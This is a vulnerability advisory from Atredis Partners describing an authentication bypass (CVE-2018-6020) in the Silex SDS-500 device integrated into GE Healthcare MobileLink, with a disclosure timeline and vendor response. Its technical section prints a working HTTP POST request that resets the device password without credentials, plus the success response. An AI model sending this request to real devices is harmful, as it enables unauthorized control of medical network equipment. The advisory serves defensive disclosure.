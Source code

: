 # ATREDIS-2018-0001: Silex SDS-500 Authentication Bypass

## Vulnerability Type
Incorrect Access Control

## Vendors
* Silex Technology
* GE Healthcare

## Affected Products
* Silex SDS-500 (v1.54)
* GE Healthcare MobileLink

## Summary
The Silex Technology SDS-500 device does not check for authentication
when handling certain POST requests to the web interface. This allows
an attacker to modify settings without authenticating to the device.
The SDS-500 device is integrated into the GE Healthcare MobileLink
System.

## Mitigation
Silex Technology has confirmed the issue, but indicates that the product
is working as designed, and that a secondary password must be configured
for the 'update' account to prevent unauthenticated changes to the device
configuration. The ‘update’ account is not enabled by default and documentation
does not inform the user base of the need to enable this account to protect
device configurations.

## Credit
This vulnerability was found by Eric Evenchick of Atredis Partners

## References
* https://nvd.nist.gov/vuln/detail/CVE-2018-6020
* https://github.com/atredispartners/advisories/blob/master/ATREDIS-2018-0001.md
* https://cwe.mitre.org/data/definitions/287.html

## Report Timeline
* 2018-01-08: Atredis Partners reaches out to Silex Technology and GE Healthcare
* 2018-01-23: Atredis Partners provides draft advisory to GE Healthcare Product Security
* 2018-02-08: Silex Technology indicates that this behavior is by design and can be mitigated through a secondary password on the 'update' account.
* 2018-03-20: Atredis Partners provides draft advisory to CERT/CC
* 2018-05-04: Atredis Partners plans to publish advisory ATREDIS-2018-0001

## Technical Details
When making POST requests to the SDS-500 web interface, the 'access'
parameter is not checked. An attacker can craft an attack to modify
settings with no knowledge of the device's password. This technique
can be used to modify the device's ‘access’ password. The request below
uses this vulnerability to set the device password to 'test':

```
POST /psw_update HTTP/1.1
Host: device
Content-Type: application/x-www-form-urlencoded
Content-Length: 75
Connection: Close

access=&prot=&language=0&pswnum=0&psw_new1=test&psw_new2=test&action=Submit
```

The response from the server indicates that the password has been changed:

```
HTTP/1.1 200 OK
Connection:close
Date:Thu, 01 Jan 1998 00:00:00 GMT

<BODY><CENTER><FONT SIZE="4">Data updated successfully</FONT></CENTER></BODY></HTML>
```
